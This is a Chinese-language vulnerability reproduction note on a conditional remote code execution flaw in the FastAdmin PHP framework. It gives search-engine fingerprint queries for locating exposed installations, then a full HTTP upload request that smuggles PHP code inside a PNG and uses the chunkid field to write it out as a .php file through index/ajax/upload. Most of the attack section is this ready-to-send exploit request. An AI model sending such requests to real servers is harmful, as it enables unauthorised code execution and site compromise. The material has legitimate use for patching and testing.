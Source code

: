 # FastAdmin 远程代码执行漏洞

## 漏洞描述

FastAdmin 是一款基于 ThinkPHP 和 Bootstrap 的极速后台开发框架。FastAdmin 框架存在有条件 RCE 漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致 RCE。

参考链接：

- https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
- https://nosec.org/home/detail/4713.html

## 网络测绘

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

## 漏洞复现

前期准备：

1. 该接口至少需要普通用户权限，可以先在前台注册一个用户然后登录。
2. 需要修改默认配置才能使用分片上传功能。设置 application/extra/upload.php 下的 chunking 项为 true。
3. 可使用 application/index/controller/Ajax 下的 upload() 方法作为入口点。根据 tp5 的路由，访问该入口点的 url 为 index.php?s=index/ajax/upload。

上传头像处 post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```

![image-20221206160222513](images/image-20221206160222513.png)
